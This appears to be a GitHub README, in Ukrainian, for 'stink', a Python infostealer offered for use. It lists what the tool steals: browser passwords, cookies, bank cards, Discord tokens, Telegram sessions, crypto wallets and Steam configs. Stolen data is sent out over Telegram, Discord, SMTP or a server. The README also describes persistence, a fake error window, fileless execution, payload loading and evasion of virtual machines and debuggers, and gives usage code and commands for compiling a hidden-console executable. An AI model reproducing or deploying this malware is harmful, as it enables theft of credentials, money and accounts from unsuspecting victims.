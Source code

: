 # stink

Стилер всього лише в декілька рядків з відправкою до Telegram / Server / Discord / SMTP. Без залежностей, тільки вбудовані бібліотеки.

**Wiki:** https://github.com/FallenAstaroth/stink/wiki

## Опис
`stink` вже має значний функціонал, який тільки розширюватиметься.

## Навігація
* [Поточні можливості](#Поточні-можливості)
* [Приклад використання](#Приклад-використання)
  * [Стандартний](#Стандартний)
  * [Певні модулі](#Певні-модулі)
  * [Додаткові параметри](#Додаткові-параметри)
* [Створення exe](#Створення-exe)
  * [Створення виконуваного файла](#Створення-виконуваного-файла)
  * [За допомогою BAT](#За-допомогою-BAT)
  * [За допомогою CMD](#За-допомогою-CMD)

### Поточні можливості
1. Підтримка наступних браузерів:
   - Chrome
   - Opera
   - Opera GX
   - Edge
   - Brave
   - Vivaldi
   - Yandex (Частково)
2. Збір наступних даних:
   - Скріншот
   - Кукі
   - Паролі
   - Банківські карти
   - Історія
   - Закладки
   - IP-адреса
   - Конфігурація системи
   - Активні процеси
   - Токени Discord
   - Сесії Telegram
   - Хости FileZilla
   - Крипто гаманці:
       - Metamask
       - Phantom
       - Atomic
       - Exodus
       - Інші 10 гаманців
   - Конфіги Steam
3. Вбудовані методи відправлення:
   - Telegram
   - Server
   - Discord
   - SMTP
4. Підтримка мультипрофілів браузера.
5. Виконання в окремому потоці.
6. Виконання з використанням багатопроцесорності.
7. Можливість додання в автозапуск.
8. Вивід вікна з фейковою помилкою.
9. Виконання без створення будь яких файлів.
10. Підвантаження і запуск файлів за посиланням.
11. Збір файлів зазначеного формату за вказаними директоріями.
12. Припинення роботи на віртуальних машинах та при спробі дебагінгу.

## Приклад використання
### Стандартний
```python
from stink import Stealer, Senders

if __name__ == '__main__':
    Stealer(senders=[Senders.telegram(token="YOUR_TOKEN", user_id=YOUR_ID)]).run()
```
### Певні модулі

Приклад зі збором тільки системних даних і скріншота.
```python
from stink import Stealer, Features, Senders

if __name__ == '__main__':
    Stealer(
        senders=[
            Senders.telegram(token="YOUR_TOKEN", user_id=YOUR_ID)
        ], 
        features=[
            Features.system,
            Features.screenshot
        ]
    ).run()
```
### Додаткові параметри

- `features` - список модулів з `stink.Features`:

  - `passwords` - збір паролів.

  - `cookies` - збір кукі.

  - `cards` - збір банківських карт.

  - `history` - збір історії пошуку.

  - `bookmarks` - збір закладок.

  - `extensions` - збір розширень браузера.

  - `processes` - збір активних процесів.

  - `system` - збір конфігурації системи.

  - `screen` - скріншот.

  - `discord` - збір токенів Discord.

  - `telegram` - збір сесій Telegram.

  - `filezilla` - збір хостів FileZilla.

  - `wallets` – збір крипто гаманців.

  - `steam` - збір конфігів Steam.


- `utils` - список утиліт з `stink.Utils`:

  - `autostart` - додання в автозапуск.

  - `message` - вивід фейкового [вікна помилки](https://github.com/FallenAstaroth/stink/wiki/Fake-error).


- `protectors` - список протекторів із `stink.Protectors`:

  - `processes` - перевірка процесів на наявність програм для дебагінгу та віртуальних машин.

  - `mac_address` - перевірка MAC адрес на присутність у чорному списку.

  - `computer` - перевірка назви PC на присутність у чорному списку.

  - `user` - перевірка імені користувача на присутність у чорному списку.

  - `hosting` - перевірка чи перебуває PC на хостингу.

  - `http_simulation` - перевірка на симуляцію HTTP.

  - `virtual_machine` - перевірка на віртуальну машину.

  - `disable` - повне вимкнення всіх перевірок.
  
  - `all` - увімкнення всіх перевірок.


- `senders` - список способів надсилання з `stink.Senders`:

  - `server` - відправка на [сервер](https://github.com/FallenAstaroth/stink/wiki/Server).

  - `telegram` - відправка в [Telegram](https://github.com/FallenAstaroth/stink/wiki/Telegram-bot).

  - `discord` - відправка в [Discord](https://github.com/FallenAstaroth/stink/wiki/Discord-hook).

  - `smtp` - відправка на [пошту](https://github.com/FallenAstaroth/stink/wiki/Smtp).


- `loaders` - список підвантажувачів файлів з `stink`:

  - `Loader` - універсальний [підвантажувач](https://github.com/FallenAstaroth/stink/wiki/Files-loader).


- `grabbers` - список збирачів файлів з `stink`:

  - `Grabber` - універсальний [збирач](https://github.com/FallenAstaroth/stink/wiki/Collection-of-specific-files).

## Створення exe
Python являється інтерпретованою мовою програмування, тому ми спочатку транслюємо його в C, а потім скомпілюємо в .exe файл.
Для цього нам знадобиться Nuitka.

### Створення виконуваного файла

1. [Завантажуємо](https://github.com/FallenAstaroth/stink/archive/refs/heads/master.zip) архів.
2. Розпаковуємо архів і переходимо в директорію stink-master.
3. Створюємо test.py (або будь-яку іншу назву) файл в цій же директорії з наступним кодом:
```python
from stink import Stealer, Senders

if __name__ == '__main__':
    Stealer(senders=[Senders.telegram(token="YOUR_TOKEN", user_id=YOUR_ID)]).run()
```

### За допомогою BAT
1. Запускаємо compiler.bat.

### За допомогою CMD
1. Відкриваємо `cmd`.
2. Прописуємо команду:
```
pip install virtualenv
```
3. Переходимо в папку з файлом `test.py`:
```
cd path\to\file
```
4. Створюємо віртуальне оточення і активуємо його:
```
virtualenv venv
```
```
venv\Scripts\activate
```
5. Встановлюємо Nuitka:
````
pip install Nuitka
````
6. Для зменшення розміру файла додатково встановлюємо Zstandard (опціонально):
```
pip install zstandard
```
7. Прописуємо команду:
```
nuitka --onefile --plugin-enable=multiprocessing --windows-disable-console test.py
```

Після виконання команди отримуємо test.exe файл із прихованою консоллю.
